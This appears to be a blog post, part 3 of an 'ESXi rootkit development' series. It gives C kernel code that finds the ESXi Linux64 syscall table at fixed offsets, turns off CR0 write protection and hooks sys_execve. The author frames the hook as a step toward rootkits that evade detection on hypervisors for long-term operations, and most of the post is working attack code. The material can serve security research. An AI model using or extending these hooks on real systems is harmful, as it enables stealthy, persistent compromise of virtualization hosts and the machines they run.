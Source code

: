 +++
title = 'ESXHiDE - ESXi Rootkit Development - Part 3'
date = 2024-09-30T23:47:39-05:00
draft = true
+++

## Looping Through Syscall Table

Once I was able to grab the base address of the `user` module, I was able to use an offset to find `Linux64_SyscallTable` and `Linux64_SyscallTableLen` variables and loop through them to print out the syscalls for some sanity check.

```
        uint64_t Linux64_SyscallTableLen = *(uint64_t*)(user_mod_addr + 0x935C0);
        SyscallTable_Entry* Linux64_SyscallTable = (SyscallTable_Entry*)(user_mod_addr + 0x935E0);

        for (i = 0; i < Linux64_SyscallTableLen; i++)
        {
            printk("SYSCALL TABLE ENTRY %d: %s -> %p\n", i, Linux64_SyscallTable[i].name, Linux64_SyscallTable[i].func);
        }
```

![](/images/2024-09-30-23-51-48.png)

Everything looks good and ready to hook!

## Hooking a Syscall & Profit

At this point, it's pretty straight forward hooks.  For my proof of concept, I hook `sys_execve` and print out the names of the binaries being executed to the kernel logs.  From here, anyone can build defensive anti-malware type tools or malicious kernel level rootkits on ESXi hypervisor to evade detection for possibly long term operations.

```
typedef asmlinkage int (*orig_sys_execve_t)(char *name, char **argv, char **envp);
orig_sys_execve_t orig_sys_execve;

asmlinkage int hooked_sys_execve(char *name, char **argv, char **envp)
{
    printk("execve(%s)\n", name);
    return orig_sys_execve(name, argv, envp);
}

...

        orig_sys_execve = (orig_sys_execve_t)Linux64_SyscallTable[__NR_execve].func;
        unsigned long cr0 = read_cr0();
        write_cr0(cr0 & ~X86_CR0_WP);

        Linux64_SyscallTable[__NR_execve].func = (uint64_t)hooked_sys_execve;
        write_cr0(cr0);
```

![](/images/2024-10-01-00-00-17.png)

Hopefully this was helpful to someone.  This technique can be applied to both Linux syscalls and ESXi syscalls.  I sure enjoyed researching this problem since there didn't seem to be a lot of resources on this.  I'll post a complete working rootkit later or maybe I'll wait and see what the smart people of the internet can come up with.
